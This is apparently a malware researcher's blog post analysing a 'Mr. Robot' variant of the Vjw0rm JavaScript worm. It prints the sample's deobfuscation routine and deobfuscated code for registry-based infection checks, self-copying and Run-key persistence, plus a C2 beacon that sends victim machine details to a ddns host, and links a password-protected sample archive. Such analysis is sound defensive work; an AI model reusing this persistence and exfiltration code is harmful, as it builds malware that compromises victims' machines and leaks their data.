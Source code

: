 ```yaml
---
weight: 4
title: "Mr. Robot Variant of Vjw0rm"
date: 2020-02-01
draft: false
author: "c3rb3ru5d3d53c"
description: "An interesting analysis of a Vjw0rm variant"
images: []
tags: ["Vjw0rm", "Worm"]
categories: ["Malware"]
lightgallery: true
---
```


I was monitoring `Any.Run` when a `.js` file peeked my interest due to the limited network traffic.

# Analysis

`Metadata:`
- Name: `1.js`
- MD5 : `3f438e857c45a4812dbfa331fd3b8011`

The first stage decrypts a long Unicode string then calls `eval` on its result as seen in _Figure 1_.

```js
function y(o,h) {
    var t;var s="";
    var d=(o+"").split("");
    for (var i=0;i<d.length;i++){
        t=d[i].charCodeAt(0);
        s+=String.fromCharCode(256-+t+(+h));
    }
    return s;
}
WScript.Sleep(10000);
eval("eval(y(\"<long_unicode_string>\"");
```
_Figure 1: Deobfuscation routine_

When threat actor(s) use `eval`, most of the time I can easily bypass this with replacing it with `console.log` and using `nodejs` to do the heavy lifting for us.

In our case here this is exactily what I did with removing the sleep and replacing `eval` with `console.log`.

After the script is run with modifications it is possible to obtain the pseudo deobfuscated code.

This means that the contents are still obfuscated to make it difficult for reading however we can identify some key functionality.

In this case most of the strings are stored in an array with the variable `_0x4ba2`.

This will have to be deobfuscated by hand as seen in _Figure 2_.

```js
try {
	U = sh[_0xb4af('0xd')](g[2]);
} catch (_0x55fd01) {
	var sv = fu[_0xb4af('0xe')]('\\');
	if (':\\' + sv[1] == ':\\' + wn) {
		U = _0xb4af('0xf');
		sh['RegWrite'](g[2], U, g[5]);
	} else {
		U = _0xb4af('0x10');
		sh[_0xb4af('0x11')](g[2], U, g[5]);
	}
}
Ns();
```
_Figure 2: Obfuscated result_

To achieve this I renamed the variable and simplified the code so its easily human readable.

`Vjw0rm` will first check for the registry key `HKCU\\vjw0rm` if the value is `TRUE` or `FALSE` to determine if the machine is already infected or not and will then run the `Install()` routine as seen in _Figure 3_.

```js
try{
	is_installed = sh['RegRead']('HKCU\\vjw0rm');
} catch(_0x55fd01){
	var sv = fu['split']('\x5c');
	if(':\x5c' + sv[0x1] == ':\x5c' + script_name){
		is_installed = 'TRUE';
		sh['RegWrite']('HKCU\\vjw0rm', is_installed, 'REG_SZ');
	} else{
		is_installed = 'FALSE';
		sh['RegWrite']('HKCU\\vjw0rm', is_installed, 'REG_SZ');
	}
}
Install();
```
_Figure 3: Check if installed_

The install routine will copy the script to the `%TEMP%` directory then establish persistence by setting the registry key `HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\WEW2BF0U0A` with the value being the path to `vjw0rm` as seen in _Figure 4_.

```js
function Install(){
	var worm_file = GetEnv('TEMP') + char_backslash + script_name;
	try{
		fs['CopyFile'](fu, worm_file, !![]);
	} catch(_0x349bb9){}
	try{
		sh['RegWrite']('HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\WEW2BF0U0A', '\x22' + worm_file + '\x22', 'REG_SZ');
	}catch(_0x58ded7){}
	try{
		var shell_app = GetActiveXObject(ACTIVEX_OBJECT_SHELL_APPLICATION);
		fs['CopyFile'](fu, shell_app['NameSpace'](0x7)['Self']['Path'] + '\x5c' + script_name, !![]);
	}catch(_0x151660){}
}
```
_Figure 4: Vjw0rm Persistence / Installation_

After installation has completed it will send a HTTP POST request to the C2 server `updatefacebook.ddns.net:6`.

Information of the victim machiine will be supplied to the C2 server by providing it in the `User-Agent` header.

The traffic will look like the following:

```http
POST /Vre HTTP/1.1
Host: updatefacebook.ddns.net:6
User-Agent: MR_ROBOT_18d0-EEF8\COMPUTER-NAME\USERNAME\caption\FullName\\TRUE\TRUE\
```

The `User-Agent` contains the campaign prefix, drive id, computer-name, username, caption, full name, TRUE/FALSE (if visual basic compiler present), TRUE/FALSE (if Vjw0rm is installed).

This variant has several command options, `Sc` (write file to disk and run it), `Ex` (run additional JSCript code), `Rn` (rename the UUID), `Up` (Run code w/ WScript), and `RF` (run file).

Analysis files for this sample can be downloaded [here](/samples/2020-02-01-vjw0rm.zip).

The password to all ZIP archives on this site is `infected`.

Thank you,

# References
- [Any.Run](https://app.any.run/tasks/8953f3c1-6058-46ec-b3f4-03b46d3c39f9/)
- [VirusTotal](https://www.virustotal.com/gui/file/ea59411c081c6fa100b6d57f1dfa06221834dd22243272e8fd450e89655b0d49/detection)
